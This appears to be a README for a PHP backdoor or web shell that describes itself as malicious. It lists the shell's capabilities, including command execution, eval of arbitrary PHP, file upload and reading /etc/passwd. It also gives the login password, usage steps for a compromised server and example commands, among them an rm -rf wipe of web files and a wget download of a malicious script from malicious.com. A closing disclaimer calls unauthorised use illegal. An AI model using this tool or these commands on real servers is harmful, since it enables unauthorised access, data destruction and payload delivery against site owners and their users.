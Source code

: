 ### PHP RootKit Backdoor – Features & Security Risks

##Password:
```bash
R00t
```

#### Overview

This PHP backdoor script provides full control over a web server once deployed. **It is a malicious tool** that allows unauthorized access and remote command execution.

#### Features & Functions:

- **Password-Protected Access:** Requires a predefined password for login.
- **File Manager:** View, create, edit, and delete files.
- **Command Execution:** Run system commands using `shell_exec()`.
- **PHP Code Execution:** Execute arbitrary PHP scripts via `eval()`.
- **File Upload:** Upload files to the server.
- **Sensitive File Access:** Read system files like `/etc/passwd`.

#### Usage (Theoretical)

Once uploaded to a server, this script can be accessed via a browser:

1. Navigate to the script URL.
2. Enter the password to gain access.
3. Execute commands, manage files, and exploit the server.

#### Example Commands:

```bash
ls -la  # List directory contents
cat /etc/passwd  # View system user accounts
rm -rf /var/www/html/*  # Delete all web files (dangerous)
wget http://malicious.com/malware.php -O /tmp/m.php  # Download a malicious script
php -r "system('whoami');"  # Check user permissions
```

#### Warning & Ethical Considerations

**Using such scripts for unauthorized access is illegal.** Ethical hackers and security researchers analyze these abilities to strengthen web security. If found on a system, **remove it immediately** and implement stronger security measures.
